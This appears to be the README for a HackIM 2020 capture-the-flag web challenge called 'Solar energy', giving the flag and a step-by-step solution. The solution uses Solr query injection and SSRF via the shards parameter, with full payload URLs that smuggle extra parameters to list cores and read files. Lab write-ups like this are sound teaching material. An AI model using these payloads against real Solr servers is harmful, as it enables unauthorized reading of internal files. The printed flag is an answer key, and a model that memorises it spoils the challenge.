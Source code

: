 # name:Solar energy 
description: Can you mismatch energy? 

# flag: hackim20{Content_Mismatch_helps_you_all_the_Time}

# solution
- Detect solr injection with " or : (many special chars also raise the error)
- SSRF with shards to local:8939
- Find other cores available with localhost:8080/search.php?search=a%26shards=http://localhost:8983/solr/admin%26qt=/cores?wt=text  (wt=text creates a content mismatch and the response is printed )
- You find the secret core - SeCrEtSeArCh8888
- Listing all the config files in that core- http://localhost:8080/search.php?search=a%26shards=http://localhost:8983/solr/SeCrEtSeArCh8888/admin%26qt=/file?wt=text  
- Getting the flag - http://localhost:8080/search.php?search=a%26shards=http://localhost:8983/solr/SeCrEtSeArCh8888/admin%26qt=/file?wt=text%26contentType=text%2Fplain;charset%3Dutf-8%26file=flag.txt

# Installation
- ./start.sh
